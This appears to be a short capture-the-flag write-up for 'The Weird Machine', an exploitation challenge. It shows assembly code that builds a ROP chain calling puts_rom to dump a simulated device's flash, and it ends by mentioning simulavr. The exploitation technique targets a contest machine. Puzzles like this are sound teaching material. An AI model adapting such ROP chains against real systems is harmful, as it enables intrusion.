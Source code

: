 # The Weird Machine (Challenge 10, Exploitation - 400pts)

>> Damn fridges. It seems there is no end to the problems they bring. And this time time it got even more difficult. I guess you already know in which direction this goes, right?

This is the continuation of the Hide & Seek challenge. The last simple code didn't work, it seems that the flag is not in the RAM anymore. What I did was to create a new code that dumps the flash to learn why it doesn't work anymore.

My way of this is by using ROP chain to call `puts_rom` (code at 0x494)


  xor flag,flag
  xor r1,r1
  mov.h r1, 0006
  mov.l r1, 0000
  xor flag, r1
  xor r1, r1
  mov.l r2, 4142 # ignored (will be popped)
  mov.h r2, 8a02 # 
  put r1, r2	#write r2 to r1
  mov.l r3, 4
  add r1, r3
  mov.l r2, OFFSET# offset  to read
  mov.h r2, 8702 # 
  put r1, r2
  add r1, r3
  mov.l r2, 0000
  mov.h r2, 0000
  put r1, r2
  add r1, r3
  mov.l r2, 5c02
  mov.h r2, ab02 #wait key
  put r1, r2

  #change stack ptr
  xor flag,flag
  xor r1, r1
  mov.l r1, 5b
  mov.h r2,05ff  # SPL SPH 
  mov.l r2,0000
  put r1, r2

The FLAG is not in the flash, so it needs to be called. The easiest way for me is to use simulavr.

 ![solution](./ctf.jpg?raw=true "solution")

